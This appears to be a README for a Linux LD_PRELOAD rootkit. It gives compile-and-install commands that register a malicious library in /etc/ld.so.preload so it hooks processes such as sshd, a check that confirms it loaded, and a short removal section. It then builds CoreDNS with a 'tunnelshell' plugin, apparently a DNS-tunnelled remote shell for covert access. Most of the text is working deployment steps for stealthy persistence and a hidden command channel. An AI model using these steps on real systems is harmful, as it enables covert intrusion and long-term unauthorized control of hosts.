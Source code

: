 


Compile and install:
```bash
 gcc zlibcnss.c -o zlibcnss.so -fPIC -shared -ldl -D_GNU_SOURCE -pthread
 cp zlibcnss.so /lib/
 echo "/lib/zlibcnss.so" > /etc/ld.so.preload
```


## Remove rootkit
Delete `/etc/ld.so.preload` and delete the maliciuos library. 
Nothing else needed.
```bash
rm /etc/ld.so.preload
rm /lib/zlibcnss.so
rm /lib/x86_64-linux-gnu/zlibcnss.so
```

write function hijack 需要优化

### Verify installation
```bash
ldd /usr/sbin/sshd
	linux-vdso.so.1 (0x00007ffe9214c000)
	/lib/x86_64-linux-gnu/zlibcnss.so (0x00007f17ed354000)
    [...]
```
Also check /etc/ld.so.preload for your entry.
```bash
cat /etc/ld.so.preload 
/lib/x86_64-linux-gnu/zlibcnss.so
```

```
wget https://golang.org/dl/go1.17.4.linux-amd64.tar.gz
tar -zxvf go1.17.4.linux-amd64.tar.gz -C /usr/local/
ln -s /usr/local/go/bin/go /usr/bin/go

cat >> /etc/profile <<EOF
export GOROOT=/usr/local/go
export GOBIN=$GOROOT/bin
export PATH=$PATH:$GOBIN
export GOPATH=/home/gopath
EOF
mkdir /home/gopath
source /etc/profile
go version

wget https://github.com/coredns/coredns/archive/refs/tags/v1.8.6.tar.gz
tar zxvf v1.8.6.tar.gz && cd coredns-1.8.6


echo tunnelshell:github.com/adc/coredns-tunnelshell >> plugin.cfg
#plugin.cfg hosts:hosts tunnelshell:github.com/adc/coredns-tunnelshell

go get github.com/adc/coredns-tunnelshell
go generate
go build
make

./coredns -plugins

```

